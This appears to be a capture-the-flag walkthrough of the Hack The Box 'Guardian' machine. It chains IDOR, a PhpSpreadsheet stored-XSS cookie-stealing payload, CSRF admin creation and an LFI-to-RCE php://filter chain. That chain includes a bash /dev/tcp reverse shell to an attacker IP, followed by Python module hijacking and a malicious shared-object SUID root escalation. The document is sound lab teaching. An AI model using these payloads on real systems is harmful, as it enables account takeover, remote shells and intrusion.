## Nmap Scan
```bash
└─$ sudo nmap 10.129.237.248 -sC -sV -A
...
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 9c:69:53:e1:38:3b:de:cd:42:0a:c8:6b:f8:95:b3:62 (ECDSA)
|_  256 3c:aa:b9:be:17:2d:5e:99:cc:ff:e1:91:90:38:b7:39 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://guardian.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
Device type: general purpose|router
```
Only two ports are open: HTTP and SSH.
I added guardian.htb to /etc/hosts, started Burp Suite, and navigated to the web application.
## Web
Despite discovering a new subdomain (portal.guardian.htb), it did not reveal anything interesting at first, but I added it to /etc/hosts.


Visiting the subdomain redirected to a login page:

Additionally, a help pdf file was available via the `Help` link: 
This document revealed that all accounts share a default password scheme. Although the document mentions that users should change their password after first login, it is likely that some users have not done so. 

This implies that if we obtain a valid student ID in the format `GUXXXXXXX`, and the user has not changed their default password, we can authenticate to the platform.
The previous page contained several emails with ID-like usernames:


I tested the first one and successfully gained access:
Passwords of the rest IDs were changed. So, we have only one account.

## IDOR
During further analysis of the application, the most interesting endpoint was identified in `chat.php`:
 `GET /student/chat.php?chat_users[0]=13&chat_users[1]=11`.
The `chat_users` parameters define the participants of a chat session. By modifying these numeric values, it is possible to access conversations between different users.

This is an Insecure Direct Object Reference (IDOR) vulnerability.

By manipulating the values, we were able to retrieve messages belonging to other users, including administrative accounts.

Using Burp Intruder, multiple user IDs were tested. It was determined that the admin user corresponds to ID `1`.

One of the retrieved messages contained valuable information, leading to credential disclosure:

The credentials were later reused to access a Gitea.
```bash
[+] creds -> jamil.enockson : DHsNnk3V503
```
## Gitea + source code
The Gitea service was hosted on a separate subdomain, which was added to /etc/hosts.
This leads to the following page:
After accessing the login page, authentication with the credentials was successful.


After gaining access to the gitea instance, two repositories were available: `guardian.htb`, `portal.guardian.htb`.
This provided full access to the application source code.
The following php dependencies were identified in the `composer.json`:
http://gitea.guardian.htb/Guardian/portal.guardian.htb/src/branch/main/composer.json
```php
{
    "require": {
        "phpoffice/phpspreadsheet": "3.7.0",
        "phpoffice/phpword": "^1.3"
    }
}
```
And awesome password from db + salt:
http://gitea.guardian.htb/Guardian/portal.guardian.htb/src/branch/main/config/config.php
```php
<?php
return [
    'db' => [
        'dsn' => 'mysql:host=localhost;dbname=guardiandb',
        'username' => 'root',
        'password' => 'Gu4rd14n_un1_1s_th3_b3st',
        'options' => []
    ],
    'salt' => '8Sb)tM1vs1SS'
];
```

## Stored XSS
First, I started by searching for known vulnerabilities in PhpSpreadsheet:

I found a relevant security advisory (GHSA-79xx-vf93-p7cx / CVE-2025-22131) describing a **Stored XSS issue** in spreadsheet rendering logic. [github](https://github.com/PHPOffice/PhpSpreadsheet/security/advisories/GHSA-79xx-vf93-p7cx) 

The issue occurs in the way sheet titles are processed when multiple worksheets are present as described on the link above:

```php
// Construct HTML
$html = '';

// Only if there are more than 1 sheets
if (count($sheets) > 1) {
	// Loop all sheets
	$sheetId = 0;

	$html .= '<ul class="navigation">' . PHP_EOL;

	foreach ($sheets as $sheet) {
		$html .= '  <li class="sheet' . $sheetId . '"><a href="#sheet' . $sheetId . '">' . $sheet->getTitle() . '</a></li>' . PHP_EOL;
		++$sheetId;
	}

	$html .= '</ul>' . PHP_EOL;
}
```
The vulnerability is triggered when multiple worksheets are present in a single file. 

The vulnerability lies in the following line:
```php
$html .= '  <li class="sheet' . $sheetId . '"><a href="#sheet' . $sheetId . '">' . $sheet->getTitle() . '</a></li>' . PHP_EOL;
```
Since `$sheet->getTitle()` is not properly sanitized before being inserted into the html output, it becomes possible to inject arbitrary JavaScript code via manipulating sheet titles. 

To exploit this, I used the following site to generate a crafted .xlsx file: [treegrid.com](https://www.treegrid.com/FSheet)

One of the worksheet titles was replaced with the following payload:
`"><script>new Image().src="http://10.10.15.227/?"+document.cookie</script>`
Because we control the sheet title, this payload gets embedded directly into the html file.

The malicious file was then uploaded via the student functionality at: `/student/assignments.php?assigment_id=<id>` for submitting a work. 

When a lecturer reviews the uploaded file, the payload executes and sends their session cookie to our server.

To capture the cookie, a local HTTP server was started:
```bash
└─$ php -S 0:80
```
After uploading the file at `/student/assignments.php?assigment_id=15`:

the following request was received:

\[+] -> `GET /?PHPSESSID=4tvilv3v78md7rn2krl3rc17qn`

By replacing the session cookie in the browser, it was possible to hijack the lecturer's session and gain access as `sammy.threat`:




## CSRF
While exploring the Notice Board page, I noticed that one of the entries had additional **edit/delete** icons. Only after interacting with it did the `New Notice` functionality become visible:

On the notice edit page, there is a **Reference Link** field, which appeared to be a potential attack vector:
When creating a new notice, the following message is displayed: `Reference Link (will be reviewed by the admin)`
This indicates that the admin manually reviews submitted links:

Let’s examine the source code in the admin directory:
After reviewing the source code, I identified a potential attack vector.

The administrator can create new users and assign arbitrary roles, including admin privileges.

The relevant code is shown below:
```php
<?php
require '../includes/auth.php';
require '../config/db.php';
require '../models/User.php';
require '../config/csrf-tokens.php';

$token = bin2hex(random_bytes(16));
add_token_to_pool($token);

if (!isAuthenticated() || $_SESSION['user_role'] !== 'admin') {
    header('Location: /login.php');
    exit();
}

$config = require '../config/config.php';
$salt = $config['salt'];

$userModel = new User($pdo);

if ($_SERVER['REQUEST_METHOD'] === 'POST') {

    $csrf_token = $_POST['csrf_token'] ?? '';

    if (!is_valid_token($csrf_token)) {
        die("Invalid CSRF token!");
    }

    $username = $_POST['username'] ?? '';
    $password = $_POST['password'] ?? '';
    $full_name = $_POST['full_name'] ?? '';
    $email = $_POST['email'] ?? '';
    $dob = $_POST['dob'] ?? '';
    $address = $_POST['address'] ?? '';
    $user_role = $_POST['user_role'] ?? '';

    // Check for empty fields
    if (empty($username) || empty($password) || empty($full_name) || empty($email) || empty($dob) || empty($address) || empty($user_role)) {
        $error = "All fields are required. Please fill in all fields.";
    } else {
        $password = hash('sha256', $password . $salt);

        $data = [
            'username' => $username,
            'password_hash' => $password,
            'full_name' => $full_name,
            'email' => $email,
            'dob' => $dob,
            'address' => $address,
            'user_role' => $user_role
        ];

        if ($userModel->create($data)) {
            header('Location: /admin/users.php?created=true');
            exit();
        } else {
            $error = "Failed to create user. Please try again.";
        }
    }
}
?>
```
This means that if we can force the admin to send a crafted POST request, we can create a new user with admin privileges.

The attack flow for performing CSRF attack is as follows:

1) Provide the admin with a malicious link (via the Notice Board)

2) The link points to a page containing an auto-submitting form

3) When the admin visits the page, their browser sends a forged POST request

4) A new admin user is created

We also need to account for CSRF tokens, as a valid token is required to construct a successful POST request.

CSRF tokens are managed in `/config/csrf-tokens.php`.
The implementation is as follows:
```php
<?php

$global_tokens_file = __DIR__ . '/tokens.json';

function get_token_pool()
{
    global $global_tokens_file;
    return file_exists($global_tokens_file) ? json_decode(file_get_contents($global_tokens_file), true) : [];
}

function add_token_to_pool($token)
{
    global $global_tokens_file;
    $tokens = get_token_pool();
    $tokens[] = $token;
    file_put_contents($global_tokens_file, json_encode($tokens));
}

function is_valid_token($token)
{
    $tokens = get_token_pool();
    return in_array($token, $tokens);
}
```
CSRF tokens are stored in a global file (tokens.json) and are not tied to a specific user session.

This is a critical flaw because any valid token from the pool can be reused by any user. The `is_valid_token()` function only checks whether the token exists in the global pool.

For example, a token obtained while authenticated as sammy.threat can be reused to perform actions as the admin.

The following HTML payload will be used:

```html
<html>
<body onload="document.forms[0].submit()">
<form method="POST" action="http://portal.guardian.htb/admin/createuser.php">
    
    <input type="hidden" name="csrf_token" value="89cc5f102b3519f0473b7b3200cec03a">

        <input type="text" name="username" value="ev1lAdm1n" required>

        <input type="password" name="password" value="qwe123Q" required>

        <input type="text" name="full_name" value="John Smith" required>

        <input type="email" name="email" value="ev1l.adm1n@guardian.htb" required>

        <input type="date" name="dob" value="2000-03-05" required>

        <input type="text" name="address" value="localhost" required>

        <input name="user_role" value="Admin" required>

    <button type="submit"></button>

</form>
</body>
</html>
```
When the admin visits this page, the browser automatically submits the form due to the onload event, sending a POST request to: `http://portal.guardian.htb/admin/createuser.php`.

After the admin visits the malicious link, a new user with administrative privileges is successfully created:



## LFI -> RCE via php://filter

After gaining administrative access, an additional functionality became available in the left panel: **Reports**.
Clicking on it leads to the following page: `http://portal.guardian.htb/admin/reports.php?report=reports/enrollment.php`.
This page is used to display different report files.
The source code of `/admin/reports.php` is shown below:
```php
<?php
require '../includes/auth.php';
require '../config/db.php';

if (!isAuthenticated() || $_SESSION['user_role'] !== 'admin') {
    header('Location: /login.php');
    exit();
}

$report = $_GET['report'] ?? 'reports/academic.php';

if (strpos($report, '..') !== false) {
    die("<h2>Malicious request blocked 🚫 </h2>");
}   

if (!preg_match('/^(.*(enrollment|academic|financial|system)\.php)$/', $report)) {
    die("<h2>Access denied. Invalid file 🚫</h2>");
}

?>
```
The file is then included using:
```php
<?php include($report); ?>
```
TThis introduces a Local File Inclusion (LFI) vulnerability, as user-controlled input is passed directly to `include()`.

The application attempts to filter input: blocks `..` (directory traversal) and enforces `.php` filenames via regex.
However, it does not prevent the use of PHP stream wrappers, such as `php://filter`.
Since `include()` executes PHP code, it is possible to escalate LFI to Remote Code Execution (RCE) using a crafted filter chain.

`[!]` PHP filter chain generator (synacktiv) -> [link](https://github.com/synacktiv/php_filter_chain_generator)

First, a simple test payload:
```bash
└─$ python3 php_filter_chain_generator.py --chain '<?php phpinfo(); ?>  '
```

This confirmed that code execution is possible. Next, a reverse shell payload was generated:

```php
└─$ python3 php_filter_chain_generator.py --chain '<?php exec("bash -c \"bash -i >& /dev/tcp/10.10.15.227/1111 0>&1\""); ?>'
```
Start a listener:
```bash
nc -nvlp 1111
```


After gaining access, the shell was stabilized:


## MySQL

Earlier, database creds were discovered in the source code:
```php
'username' => 'root',
'password' => 'Gu4rd14n_un1_1s_th3_b3st',
```

Using these, access to the database was obtained:
```bash
mysql> use guardiandb
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+----------------------+
| Tables_in_guardiandb |
+----------------------+
| assignments          |
| courses              |
| enrollments          |
| grades               |
| messages             |
| notices              |
| programs             |
| submissions          |
| users                |
+----------------------+
9 rows in set (0.00 sec)
```
Extracting user credentials:
```sql
select username,password_hash from users;
```

To identify valid system users:
```bash
cat /etc/passwd | grep /bin/bash
```


## Hash Cracking

From the source code: `http://gitea.guardian.htb/Guardian/portal.guardian.htb/src/branch/main/admin/createuser.php`:

```php
$password = hash('sha256', $password . $salt);
```
The salt value was also found:
```php
'salt' => '8Sb)tM1vs1SS'
```

To crack the hashes, they were formatted as: \<username\>:\<password-hash\>:\<salt-in-hex\>

Since Hashcat expects the salt in hex format:
```bash
└─$ echo '8Sb)tM1vs1SS' | xxd -p
38536229744d317673315353
```
Final format:
```bash
└─$ cat users.hashes 
admin:694a63de406521120d9b905ee94bae3d863ff9f6637d7b7cb730f7da535fd6d6:38536229744d317673315353
jamil.enockson:c1d8dfaeee103d01a5aec443a98d31294f98c5b4f09a0f02ff4f9a43ee440250:38536229744d317673315353
mark.pargetter:8623e713bb98ba2d46f335d659958ee658eb6370bc4c9ee4ba1cc6f37f97a10e:38536229744d317673315353
sammy.treat:c7ea20ae5d78ab74650c7fb7628c4b44b1e7226c31859d503b93379ba7a0d1c2:38536229744d317673315353
```
Hashcat:


Using Hashcat, the following credentials were recovered:
```bash
admin : fakebake000
jamil.enockson : copperhouse56
```

## Shell as jamil

After cracking user credentials, it was reasonable to assume that the same password might be reused for system access.

Using the recovered credentials, SSH access was obtained:
```bash
└─$ ssh jamil@guardian.htb
```
Checking sudo permissions:
```bash
jamil@guardian:~$ sudo -l
```
Output:
```bash
Matching Defaults entries for jamil on guardian:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User jamil may run the following commands on guardian:
    (mark) NOPASSWD: /opt/scripts/utilities/utilities.py
```
This allows execution of the script as user mark without authentication.
```bash
jamil@guardian:~$ cat /opt/scripts/utilities/utilities.py
```
```python
#!/usr/bin/env python3

import argparse
import getpass
import sys

from utils import db
from utils import attachments
from utils import logs
from utils import status


def main():
    parser = argparse.ArgumentParser(description="University Server Utilities Toolkit")
    parser.add_argument("action", choices=[
        "backup-db",
        "zip-attachments",
        "collect-logs",
        "system-status"
    ], help="Action to perform")
    
    args = parser.parse_args()
    user = getpass.getuser()

    if args.action == "backup-db":
        if user != "mark":
            print("Access denied.")
            sys.exit(1)
        db.backup_database()
    elif args.action == "zip-attachments":
        if user != "mark":
            print("Access denied.")
            sys.exit(1)
        attachments.zip_attachments()
    elif args.action == "collect-logs":
        if user != "mark":
            print("Access denied.")
            sys.exit(1)
        logs.collect_logs()
    elif args.action == "system-status":
        status.system_status()
    else:
        print("Unknown action.")

if __name__ == "__main__":
    main()
```
The script imports several modules from a local package. 
```python
from utils import db
from utils import attachments
from utils import logs
from utils import status
```
Each action triggers functions from these modules.

```bash
jamil@guardian:/opt/scripts/utilities$ ls
output  utilities.py  utils
```

```bash
jamil@guardian:/opt/scripts/utilities$ ls -la utils
```
```bash
total 24
drwxrwsr-x 2 root root   4096 Jul 10  2025 .
drwxr-sr-x 4 root admins 4096 Jul 10  2025 ..
-rw-r----- 1 root admins  287 Apr 19  2025 attachments.py
-rw-r----- 1 root admins  246 Jul 10  2025 db.py
-rw-r----- 1 root admins  226 Apr 19  2025 logs.py
-rwxrwx--- 1 mark admins  253 Apr 26  2025 status.py
```
The status.py file allows members of the admins group to perform all actions on the file (read, write, execute). This means we can modify the file and add a line that spawns a shell as the mark user.
`status.py` content:
```bash
jamil@guardian:/opt/scripts/utilities$ cat ./utils/status.py
```
```python
import platform
import psutil
import os

def system_status():
    print("System:", platform.system(), platform.release())
    print("CPU usage:", psutil.cpu_percent(), "%")
    print("Memory usage:", psutil.virtual_memory().percent, "%")
```

## mark shell
To escalate privileges to mark, I added the following line:
```bash
import platform
import psutil
import os

def system_status():
    print("System:", platform.system(), platform.release())
    print("CPU usage:", psutil.cpu_percent(), "%")
    print("Memory usage:", psutil.virtual_memory().percent, "%")
    os.system("/bin/bash") # [+]
```

Get mark's shell with the following command:
```bash
sudo -u mark /opt/scripts/utilities/utilities.py system-status
```


The final step is to obtain root privileges.
Mark can execute `/usr/local/bin/safeapache2ctl` without a password by root user.
```bash
mark@guardian:~$ sudo -l
Matching Defaults entries for mark on guardian:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User mark may run the following commands on guardian:
    (ALL) NOPASSWD: /usr/local/bin/safeapache2ctl
```

I transfered this elf file to my kali host to further analysis.
GGhidra provided the disassembled version of the binary. The program follows this execution flow:

#### 1. Checking the validity of input arguments 
-> The first argument is must be `-f`:
```c
check_result = strcmp((char *)argv[1], "-f");
```
-> The second argument is the path to the apache configuration file. It must begin with `/home/mark/confs/`:
```c
resolved_path = realpath((char *)argv[2], absolute_path); 
if (resolved_path == (char *)0x0) { 
    perror("realpath"); 
}
else {
    check_result = starts_with(absolute_path, "/home/mark/confs/");
    if (check_result == 0) {
        fprintf(stderr, "Access denied: config must be inside %s\n", "/home/mark/confs/");
    }
}
```
#### 2. Reading and validating the configuration file

-> the program opens the configuration file and iterates through it line by line:
```c
config_file = fopen(absolute_path, "r"); 
if (config_file == (FILE *)0x0) { 
    perror("fopen"); 
} 
else { 
    do { 
        resolved_path = fgets(config_line, 0x400, config_file);
        if (resolved_path == (char *)0x0) {
             //... 
             if normal goto LAB_exit; 
        } 
        check_result = is_unsafe_line(config_line); 
    } while (check_result == 0); 
    fwrite("Blocked: Config includes unsafe directive.\n", 1, 0x2b, stderr); fclose(config_file); 
}
```
Each line of the configuration file is passed to the `is_unsafe_line()` function.

The `is_unsafe_line` returns 
- 0 -> if the line is safe
- 1 -> if the line is unsafe

##### Logic of is_unsafe_line

1) Parsing the line
Each line is parsed into two components: the directive and its argument (assumed to be a path):
```c
scan_result = sscanf(config_line, "%31s %1023s", directive, argument);
```
2) Directive validation
The directive is then validated. If it is not one of the following:
- `Include`

- `IncludeOptional`

- `Load Module`

then the function considers the line safe and returns 0.
```c
check_result = strcmp(directive,"Include"); 
if (check_result == 0) { 
    LAB_check_path: 
        // check path 
} 
else { 
    check_result = strcmp(directive,"IncludeOptional"); 
    if (check_result == 0) goto LAB_check_path; 

    check_result = strcmp(directive,"LoadModule");

    if (check_result == 0) goto LAB_check_path; 
}
// ...
is_unsafe = 0;
LAB_return; 
// ...

return is_unsafe;
```
3) Path Validation
If the directive matches one of the allowed values, execution continues at `LAB_check_path`, where the argument is validated:

```c
LAB_check_path: 
    if (argument[0] == '/') { 
        check_result = starts_with(argument,"/home/mark/confs/");
        if (check_result == 0) { 
            fprintf(stderr,"[!] Blocked: %s is outside of %s\n", argument,"/home/mark/confs/"); 
            is_unsafe = 1; 
            goto LAB_return; 
        } 
    }
```
If the path does not start with /home/mark/confs/, the line is marked as unsafe.

#### Program Flow
We are interested in the successful execution path. If all lines pass validation, the program eventually executes:
```c
execl("/usr/sbin/apache2ctl", "apache2ctl", "-f", absolute_path, 0);
```
If any line is flagged as unsafe, this execution path is never reached.
```c
do { 
    resolved_path = fgets(config_line, 0x400, config_file); 
    if (resolved_path == (char *)0x0) { 
        fclose(config_file); 
        execl("/usr/sbin/apache2ctl", "apache2ctl", "-f", absolute_path, 0);
        perror("execl failed"); 
        goto LAB_exit; 
    }
    check_result = is_unsafe_line(config_line); 
} while (check_result == 0);
```
##### Weaknesses in the implementation
The filtering logic is flawed and can be bypassed:

- Weak validation of the argument path
```c
if (argument[0] == '/') { ...
```
Only absolute paths are checked. This allows bypasses such as relative paths -> `../../../etc/shadow` or quoted paths (valid in Apache configs):` "/root/root.txt"`
Both cases avoid the `starts_with()` check.
- Incomplete directive validation 
Apache supports many directives, but only three are checked. This allows arbitrary directives to be used in a malicious configuration file.

## Root


Apache provides a directive called **LoadFile**, which can be used to load shared objects (`.so files`). This raised the question of how these files are loaded internally.

The directive is implemented in the `mod_so` module. 

-> https://github.com/apache/httpd/blob/trunk/modules/core/mod_so.c 

Implementation of the `LoadFile`: https://github.com/apache/httpd/blob/trunk/modules/core/mod_so.c#L329


The `dso_load` is called in this code: https://github.com/apache/httpd/blob/trunk/modules/core/mod_so.c#L146 

At some point, the following function is called:

```c
if (fullname && apr_dso_load(modhandlep, fullname, cmd->pool) == APR_SUCCESS) { //... 
```
apr_dso_load -> https://github.com/apache/apr/blob/trunk/dso/unix/dso.c#L80 

This eventually leads to a call to `dlopen()`: https://github.com/apache/apr/blob/e461da5864fdd2fca6a15ec8d6c42d7f67c5f199/dso/unix/dso.c#L12 3

https://github.com/apache/apr/blob/e461da5864fdd2fca6a15ec8d6c42d7f67c5f199/dso/unix/dso.c#L139

From the dlopen documentation: 
`~$ man dlopen` 

-> it dynamically loads a shared object into the process memory. Man pages contain information about contructors:


An important detail is that constructors (functions marked with `__attribute__((constructor))`) are executed automatically when the shared object is loaded, before control returns to the caller.

This means that arbitrary code placed inside a constructor will be executed immediately upon loading.

#### Exploitation

Therefore, we can leverage this behaviour to escalate privileges by creating a malicious shared pbject.

file c:
```c
#include <stdlib.h> 

__attribute__((constructor)) 
void init() { 
    system("cp /bin/bash /tmp/root.bash; chmod u+s /tmp/root.bash"); 
}
```
This code executes system commands that copy `/bin/bash` into `/tmp/root.bash` and set SUID bit on the copied binary.

This allows us to spawn a root shell.

Create an `ev1l.so` file:
```bash
└─$ cat ev1l.c                   
#include <stdlib.h>

__attribute__((constructor))
void init() {
	system("cp /bin/bash /tmp/root.bash; chmod u+s /tmp/root.bash");
}
```

Compile it with this command:
```bash
└─$ gcc -shared ev1l.c -o ev1l.so
```

Malicious custom.conf file that loads the ev1l.so file compiled above:
```
LoadFile /home/mark/confs/ev1l.so
```

Trasfer both files to the target system into `/home/mark/confs/` and execute this:
```bash
sudo /usr/local/bin/safeapache2ctl -f /home/mark/confs/custom.conf
```

After the execution, the SUID binary is created:
```bash
mark@guardian:~/confs$ cd /tmp
mark@guardian:/tmp$ ./root.bash -p
root.bash-5.1# 
```

